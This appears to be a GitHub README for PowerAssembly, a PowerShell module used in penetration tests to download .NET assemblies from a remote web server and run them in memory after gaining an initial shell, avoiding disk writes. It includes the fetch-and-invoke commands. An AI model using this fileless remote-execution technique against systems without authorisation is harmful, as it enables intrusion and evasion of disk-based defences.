

# PowerAssembly

Map in current PowerShell Instance Memory .NET Assemblies from remote web server.

When Assembly is mapped, you can invoke it's main with a command line argument.

The advantage of this technique is to avoid having assemblies written on disk. Everything happens in memory.

I'm using this script during my penetration tests / labs right after getting an initial shell on Windows to load other .NET Tools (Ex: ShapHound, ShapUp etc..)

# Prepare

You can use this code whether as a PowerShell Module or Classic Script.

## As a module

Choose an existing PowerShell Module Folder (see `echo $env:PSModulePath`)

Create a folder called `PowerAssembly` and place the `PowerAssembly.psm1` module inside of this new folder.

Open a new PowerShell Window and enter `Import-Module PowerAssembly`

The module is now ready for use with available functions:

* Get-MappedAssembliesList 
* Invoke-Assembly
* Get-RemoteAssembly

## As a script

You can for example copy / paste the whole `PowerAssembly.psm1` code in a new Powershell Window and enjoy offered functionalities.

## Use It

### Get-RemoteAssembly

Retrieve a .NET Assembly hosted in a remote web server.

URI must be a valid .NET Assembly file otherwise this function will raise an error.

Example: 

`Get-RemoteAssembly -RemoteAddress http://127.0.0.1/MyAssembly.exe`

or simply

`Get-RemoteAssembly http://127.0.0.1/MyAssembly.exe`

### Get-MappedAssembliesList 

Return the list of successfully mapped assemblies with its index number. Index is important to define which assembly to invoke using `Invoke-Assembly` function.

`Get-MappedAssembliesList`

### Invoke-Assembly

Invoke the main function of a target mapped assembly (defined by its index, see `Get-MappedAssembliesList`)

Example:

`Invoke-Assembly -mappedIndex 1 -argumentLine "Arg1 Arg2 Arg3"`

Notice: Index `0` = `1`

